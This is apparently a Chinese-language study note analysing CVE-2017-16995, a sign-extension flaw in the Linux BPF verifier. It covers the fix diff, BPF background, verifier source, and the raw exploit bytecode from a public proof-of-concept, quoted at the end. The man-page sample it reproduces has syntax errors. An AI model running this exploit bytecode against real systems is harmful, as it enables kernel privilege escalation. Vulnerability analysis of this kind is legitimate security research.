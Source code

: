 # CVE-2017-16995

[漏洞简介](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-16995)，主要是BPF模块中的一个错误的符号扩展造成

首先看一下修复补丁，逻辑很简单，就是加入了对32位和64位数的不同处理，具体可以看[Linux Kernel Git仓库](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=95a762e2c8c942780948091f8f2a4f32fce1ac6f)，或者[Github](https://github.com/torvalds/linux/commit/95a762e2c8c942780948091f8f2a4f32fce1ac6f)，如下：

```git

diff --git a/kernel/bpf/verifier.c b/kernel/bpf/verifier.c
index 625e358..c086010 100644
--- a/kernel/bpf/verifier.c
+++ b/kernel/bpf/verifier.c
@@ -2408,7 +2408,13 @@ static int check_alu_op(struct bpf_verifier_env *env, struct bpf_insn *insn)
 			 * remember the value we stored into this reg
 			 */
 			regs[insn->dst_reg].type = SCALAR_VALUE;
-			__mark_reg_known(regs + insn->dst_reg, insn->imm);
+			if (BPF_CLASS(insn->code) == BPF_ALU64) {
+				__mark_reg_known(regs + insn->dst_reg,
+						 insn->imm);
+			} else {
+				__mark_reg_known(regs + insn->dst_reg,
+						 (u32)insn->imm);
+			}
 		}
 
 	} else if (opcode > BPF_END) {
```

和BPF相关的漏洞，先学习一下BPF相关知识

> Berkeley Packet Filter，缩写 BPF，是类Unix系统上数据链路层的一种原始接口
> 
> BPF支持“过滤”封包，BPF的过滤功能是以BPF虚拟机机器语言的解释器的形式实现的，这种语言的程序可以抓取封包数据，对封包中的数据采取算术操作，并将结果与常量或封包中的数据或结果中的测试位比较，根据比较的结果决定接受还是拒绝封包。
> 
>  --Wikipedia

`man bpf`中的例子：

```c
/* bpf+sockets example:
 * 1. create array map of 256 elements
 * 2. load program that counts number of packets received
 *    r0 = skb->data[ETH_HLEN + offsetof(struct iphdr, protocol)]
 *    map[r0]++
 * 3. attach prog_fd to raw socket via setsockopt()
 * 4. print number of received TCP/UDP packets every second
 */
int
main(int argc, char **argv)
{
    int sock, map_fd, prog_fd, key;
    long long value = 0, tcp_cnt, udp_cnt;

    map_fd = bpf_create_map(BPF_MAP_TYPE_ARRAY, sizeof(key),
                            sizeof(value), 256);
    if (map_fd < 0) {
        printf("failed to create map '%s'\n", strerror(errno));
        /* likely not run as root */
        return 1;
    }

    struct bpf_insn prog[] = {
        BPF_MOV64_REG(BPF_REG_6, BPF_REG_1),        /* r6 = r1 */
        BPF_LD_ABS(BPF_B, ETH_HLEN + offsetof(struct iphdr, protocol)),
                                /* r0 = ip->proto */
        BPF_STX_MEM(BPF_W, BPF_REG_10, BPF_REG_0, -4),
                                /* *(u32 *)(fp - 4) = r0 */
        BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),       /* r2 = fp */
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),      /* r2 = r2 - 4 */
        BPF_LD_MAP_FD(BPF_REG_1, map_fd),           /* r1 = map_fd */
        BPF_CALL_FUNC(BPF_FUNC_map_lookup_elem),
                                /* r0 = map_lookup(r1, r2) */
        BPF_JMP_IMM(BPF_JEQ, BPF_REG_0, 0, 2),
                                /* if (r0 == 0) goto pc+2 */
        BPF_MOV64_IMM(BPF_REG_1, 1),                /* r1 = 1 */
        BPF_XADD(BPF_DW, BPF_REG_0, BPF_REG_1, 0, 0),
                                /* lock *(u64 *) r0 += r1 */
        BPF_MOV64_IMM(BPF_REG_0, 0),                /* r0 = 0 */
        BPF_EXIT_INSN(),                            /* return r0 */
    };

    prog_fd = bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER, prog,
                            sizeof(prog), "GPL");

    sock = open_raw_sock("lo");

    assert(setsockopt(sock, SOL_SOCKET, SO_ATTACH_BPF, &prog_fd,
                      sizeof(prog_fd)) == 0);

    for (;;) {
        key = IPPROTO_TCP;
        assert(bpf_lookup_elem(map_fd, &key, &tcp_cnt) == 0);
        key = IPPROTO_UDP
        assert(bpf_lookup_elem(map_fd, &key, &udp_cnt) == 0);
        printf("TCP %lld UDP %lld packets0, tcp_cnt, udp_cnt);
        sleep(1);
    }

    return 0;
}
```

继续看漏洞相关的内核源码，漏洞出现于`check_alu_op`函数在opcode为`BPF_MOV`时的分支

相关资料
> `BPF_K`: a constant  
> `BPF_X`: index register
> ![https://man.openbsd.org/bpf.4](BPF_ALU.png)

`check_alu_op`函数部分源码

```c
		if (BPF_SRC(insn->code) == BPF_X) {
			if (BPF_CLASS(insn->code) == BPF_ALU64) {
				/* case: R1 = R2 */
				 ...
			} else {
				/* R1 = (u32) R2 */
				...
			}
		} else {
			/* case: R = imm
			 * remember the value we stored into this reg
			 */
			regs[insn->dst_reg].type = SCALAR_VALUE;

			__mark_reg_known(regs + insn->dst_reg, insn->imm);
			
			if (BPF_CLASS(insn->code) == BPF_ALU64) {
				__mark_reg_known(regs + insn->dst_reg,
						 insn->imm);
			} else {
				__mark_reg_known(regs + insn->dst_reg,
						 (u32)insn->imm);
			}
		}
```

```c
/* Mark the unknown part of a register (variable offset or scalar value) as
 * known to have the value @imm.
 */
static void __mark_reg_known(struct bpf_reg_state *reg, u64 imm)
{
	reg->id = 0;
	reg->var_off = tnum_const(imm);
	reg->smin_value = (s64)imm;
	reg->smax_value = (s64)imm;
	reg->umin_value = imm;
	reg->umax_value = imm;
}
```

看一下insn的数据结构发现imm是有符号的

```c
struct bpf_insn {
	__u8	code;		/* opcode */
	__u8	dst_reg:4;	/* dest register */
	__u8	src_reg:4;	/* source register */
	__s16	off;		/* signed offset */
	__s32	imm;		/* signed immediate constant */
};
```

所以漏洞就出现在了有符号32位到无符号64位的扩展上，有可能造成`var_off`、`umin_value`、`umax_value`变成一个极大的值，所以这个应该如何利用呢？

看一下Vitaly Nikolenko([@vnik5287](https://twitter.com/vnik5287))公布的PoC，其核心在于

```c
char *__prog = 	"\xb4\x09\x00\x00\xff\xff\xff\xff"
		"\x55\x09\x02\x00\xff\xff\xff\xff"
		"\xb7\x00\x00\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x18\x19\x00\x00\x03\x00\x00\x00"
		"\x00\x00\x00\x00\x00\x00\x00\x00"
		"\xbf\x91\x00\x00\x00\x00\x00\x00"
		"\xbf\xa2\x00\x00\x00\x00\x00\x00"
		"\x07\x02\x00\x00\xfc\xff\xff\xff"
		"\x62\x0a\xfc\xff\x00\x00\x00\x00"
		"\x85\x00\x00\x00\x01\x00\x00\x00"
		"\x55\x00\x01\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x79\x06\x00\x00\x00\x00\x00\x00"
		"\xbf\x91\x00\x00\x00\x00\x00\x00"
		"\xbf\xa2\x00\x00\x00\x00\x00\x00"
		"\x07\x02\x00\x00\xfc\xff\xff\xff"
		"\x62\x0a\xfc\xff\x01\x00\x00\x00"
		"\x85\x00\x00\x00\x01\x00\x00\x00"
		"\x55\x00\x01\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x79\x07\x00\x00\x00\x00\x00\x00"
		"\xbf\x91\x00\x00\x00\x00\x00\x00"
		"\xbf\xa2\x00\x00\x00\x00\x00\x00"
		"\x07\x02\x00\x00\xfc\xff\xff\xff"
		"\x62\x0a\xfc\xff\x02\x00\x00\x00"
		"\x85\x00\x00\x00\x01\x00\x00\x00"
		"\x55\x00\x01\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x79\x08\x00\x00\x00\x00\x00\x00"
		"\xbf\x02\x00\x00\x00\x00\x00\x00"
		"\xb7\x00\x00\x00\x00\x00\x00\x00"
		"\x55\x06\x03\x00\x00\x00\x00\x00"
		"\x79\x73\x00\x00\x00\x00\x00\x00"
		"\x7b\x32\x00\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x55\x06\x02\x00\x01\x00\x00\x00"
		"\x7b\xa2\x00\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x7b\x87\x00\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00";
```
这段BPF Opcodes，需要找一个反汇编工具